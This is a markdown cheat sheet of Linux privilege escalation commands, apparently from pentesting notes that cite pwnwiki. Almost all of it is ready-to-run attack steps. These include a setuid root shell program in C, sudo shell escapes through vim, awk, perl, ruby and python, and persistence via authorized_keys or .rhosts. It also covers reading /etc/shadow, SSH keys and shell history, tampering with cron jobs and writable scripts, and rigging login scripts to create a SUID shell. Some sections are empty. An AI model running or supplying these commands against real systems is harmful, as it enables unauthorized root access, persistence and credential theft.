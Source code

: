 # Linux Privilege Escalation


- [Improve Shell](#improve-shell)
- [Kernel Exploit](#kernel-exploit)
- [Wildcards](#wildcards)
- [SUID/SGID Programs](#suid/sgid-programs)
- [Sudo Users](#sudo-users)
- [Scheduled Jobs](#scheduled-jobs)
- [World/user/group-writable](world/user/group-writable)
- [Apps/Services](#apps/services)
- [Confidential Information](#confidential-information)
- [No Absolute Path])(#no-absolute-path)


## Improve Shell
     
     python -c "import pty; pty.spawn('/bin/bash');"
     export TERM=xterm
     Add a .rhosts file or .ssh/authorized_keys file


## Kernel Exploit

OS/Variables
     uname -a;  env
     cat /etc/release /etc/issue

     searchsploit ubuntu | grep -i escalation
     Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) – ‘overlayfs’ Local Root Shell
     Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) – ‘overlayfs’ Local Root Exploit
     Linux Kernel 4.3.3 – ‘overlayfs’ Local Privilege Escalation

## Wildcards

## SUID/SGID programs

     find / -perm -g=s -o -perm -u=s -type f 2>/dev/null -exec ls -l {} \;
     run ltrace against, look for use of 'system' syscall, don't specify path?   ln -s /bin/sh /tmp/mail

     int main(void){
          setresuid(0, 0, 0);
          system("/bin/sh");
     }
     chmod +s, a+rwx setuid

## Sudo users          
     Commands that contain parameters for execution, editing, writing
     find -exec, vim :shell, nmap -interactive; !sh, less !bash, more !bash,
     awk 'BEGIN {system("/bin/bash")}'
     sudo perl –e ‘exec “/bin/sh”;’
     sudo ruby –e ‘exec “/bin/sh”’
     sudo python -c 'import pty;pty.spawn("/bin/bash")'


## Scheduled jobs
     crontab -l; ls -la /etc/cron*
     What can ‘others’ write in /etc/cron* directories        ls -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null

     can you cron files owned by other users?
     can you tamper with scripts or binaries in cron jobs?
     can you tamper cron files themselves?

## World/user/group -writable scripts and binaries             add commands to a script run by root
     find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
     find / -perm -2 -type d 2>/dev/null

## Apps/Services
     ps aux | grep root
     ps -ef | grep root

## Confidential information
     cat /etc/passwd
     cat /etc/shadow
     ls -lahR  /root
     la -lahR /home
     getent passwd
     getent aliases
     cat ~/*history
     cat /etc/ssh/ssh*
     cat ~/.ssh/*

List users, super-users, sudoers
     for i in $(cat /etc/passwd | cut -d : -f 1); do id $i; done
     awk -F: '($3 == "0") {print}' /etc/passwd
     sudo -l
     cat /etc/sudoers



## Programs Without Absolute Path



Communications/Networking
     ifconfig -a
     netstat -tupan
     lsof -nPi

Check for home directories writable by anyone other than the owner or root

Alter one of the login scripts (e.g. .bash_profile) and have them create an SUID shell when they log in

Can any cron jobs run programs that can be modified by anyone other than root and the user the job runs as
     /etc/crontab and /var/spool/cron/crontabs/

http://pwnwiki.io/#!privesc/linux/index.md